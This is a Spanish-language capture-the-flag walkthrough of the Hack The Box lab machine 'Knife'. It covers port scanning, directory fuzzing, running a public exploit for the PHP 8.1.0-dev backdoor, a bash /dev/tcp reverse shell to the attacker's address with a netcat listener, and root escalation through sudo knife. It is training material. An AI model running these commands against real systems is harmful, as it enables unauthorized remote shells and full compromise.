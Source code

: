 ```yaml
---
title: Knife
parent: Easy
nav_order: 1
---
```


# Walkthrough — Knife (Hack The Box)
{: .fs-9 }

> Una experiencia técnica entretenida y desafiante en la máquina Knife de HTB. En este walkthrough te muestro cómo logré acceso como root, aprovechando una backdoor en PHP y una curiosa configuración de privilegios. 🎯
{: .fs-6 .fw-300 }

---

## 🔰 Introducción

**Knife** es una máquina de dificultad *Easy*, ideal para practicar reconocimiento web y escalada de privilegios.  
¿Lo mejor? ¡Una puerta trasera en PHP nos da la bienvenida! 🕵️‍♂️

- SO: Linux  
- Dificultad: Easy  
- Herramientas: `nmap`, `ffuf`, `netcat`, `python`

---

## 🔍 Escaneo de puertos con Nmap

Como siempre, empiezo con una mirada rápida a todos los puertos disponibles:

```bash
nmap -sC -sV -p- -T4 10.10.10.242
```

> Escaneo completo + detección de servicios. ¡Vamos con todo!

![Resultado de Nmap](/assets/images/knife/01-nmap.png)

---

## 🧠 Primer vistazo: servicios interesantes

Nmap nos revela dos servicios abiertos:

- `22/tcp` → SSH  
- `80/tcp` → HTTP corriendo **PHP 8.1.0-dev** 👀

PHP en versión dev... eso huele a peligro (para ellos). 😏

---

## 🚪 Buscando rutas ocultas con ffuf

Fuzzear es clave para encontrar puertas escondidas. Usé:

```bash
ffuf -u http://10.10.10.242/FUZZ -w Discovery/Web-Content/common.txt -mc 200,204,301,302,307,403 -fs 401 -t 40
```

![ffuf en acción](/assets/images/knife/02-ffuf.png)

¡Y encontramos `index.php`!

---

## 🔬 Revisando el tráfico con Burp

Una visita al `index.php` y capturamos la respuesta con Burp Suite:

![Burp inspección](/assets/images/knife/03-burp.png)

Respuesta 200 OK. Está activo y esperando... ☕️

---

## 💣 Explotación: PHP 8.1.0-dev con backdoor

¡Hora de atacar! Encontré un script en GitHub que aprovecha una **backdoor** en PHP 8.1.0-dev. Ideal.

```bash
python php-8.1.0-dev-rce.py -u http://10.10.10.242
```
![github](/assets/images/knife/05b-github.png)


![Ejecutando el exploit](/assets/images/knife/05-exploit-running.png)

---

## 🐚 Shell invertida a la vista

Desde esa shell lanzamos una reverse shell a nuestra máquina:

```bash
bash -c "bash -i >& /dev/tcp/10.10.14.16/4444 0>&1"
```

Y por acá la recibimos con netcat:

```bash
nc -lvnp 4444
```

![Reverse Shell iniciada](/assets/images/knife/07b-nc-listening.png)

![Ejecutando el reversr](/assets/images/knife/05c-exploit-running.png)

---

## 🧍‍♂️ Flag de usuario

Ya como `james`, leemos nuestra primera recompensa:

```bash
whoami
cat user.txt
```

![User flag](/assets/images/knife/08-user-flag.png)

---

## 🧨 Escalada de privilegios con knife

Revisamos los permisos sudo:

```bash
sudo -l
```

¡Sorpresa! Podemos ejecutar `/usr/bin/knife` como root sin contraseña. 😮

![Sudo Knife](/assets/images/knife/09-sudo-knife.png)

Ejecutamos bash desde knife:

```bash
sudo /usr/bin/knife exec -E 'exec "/bin/bash"'
```

¡Boom! Ahora somos root. 👑

![Root shell](/assets/images/knife/10-root-shell.png)

---

## 🏁 Flag de root

Terminamos con broche de oro:

```bash
cd /root
cat root.txt
```

![Flag root](/assets/images/knife/11-root-flag.png)

---

## 🎉 Resumen final

| Etapa           | Resultado                         |
|-----------------|-----------------------------------|
| Enumeración     | PHP 8.1.0-dev encontrado          |
| Explotación     | Backdoor → acceso a `james`       |
| Escalada        | Abuso de `/usr/bin/knife`         |
| Flags obtenidas | `user.txt` y `root.txt` ✔️        |

---

¡Y así completamos la máquina Knife con éxito! 🔪  

**Autor:** [gueco99](https://github.com/gueco99)  
🧠 Hack the Box – *Knife* (Easy)
